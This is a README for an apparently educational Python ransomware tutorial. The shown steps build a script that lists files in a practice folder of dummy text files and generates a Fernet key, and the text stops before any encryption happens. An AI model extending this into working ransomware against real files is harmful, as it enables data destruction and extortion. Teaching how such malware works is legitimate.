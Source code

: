# Ransomware

This is an example application featured in NetworkChuck's <a href="https://youtu.be/UtMMjXOlRQc">Python Malware Tutorial</a>.

### Instructions

**Step 1:**
Make a folder called ``ransomware`` and create a few random ``.txt`` files with some silly phrases in them:

<pre>
<code>$ mkdir ransomware
$ cd ransomware
$ echo "This is a file" > file.txt
$ echo "Leave me alone" > file2.txt
$ echo "Another one" > hey.txt
$ echo "One more time" > pleasedonthurtme.txt</code>
</pre>

Now let's hold these files for ransom! Let's encrypt those suckers right now! Here we go:

<pre>
<code>$ nano voldemort.py</code>
</pre>

Write this code in the following ``voldemort.py`` file:

<details>
<summary>💰 How to Hold These Files for Ransom:</summary>

```python
#!/usr/bin/env python3
import os

# Let's find some files!
files = []

for file in os.listdir():
    if file == "voldemort.py":
        continue
    if os.path.isfile(file):
        files.append(file)

print(files)

```
</details>

When you first run ``voldemort.py`` in your terminal, you should see the following output:

<pre>
<code>$ python voldemort.py
['file2.txt', 'file.txt', 'hey.txt', 'pleasedonthurtme.txt']</code>
</pre>

**Step 2:**
Now let's encrypt those files! Start it off by running the following command:

<pre>
<code>$ nano voldemort.py</code>
</pre>

Add more code to ``voldemort.py``:

<details>
<summary>🔐 How to Encrypt These Files:</summary>

```python
#!/usr/bin/env python3
import os
from cryptography.fernet import Fernet

# Let's find some files!
files = []

for file in os.listdir():
    if file == "voldemort.py":
        continue
    if os.path.isfile(file):
        files.append(file)

print(files)

key = Fernet.generate_key()

print(key)

```
</details>

When you next run ``voldemort.py``, you should see the following output for your key:

<pre>
<code>$ python voldemort.py
['file2.txt', 'file.txt', 'hey.txt', 'pleasedonthurtme.txt']
b'nDcZ_UIVfpECWw2ezj2T4RKHg7i_7ARgMtHXEVxarfQ='</code>
</pre>

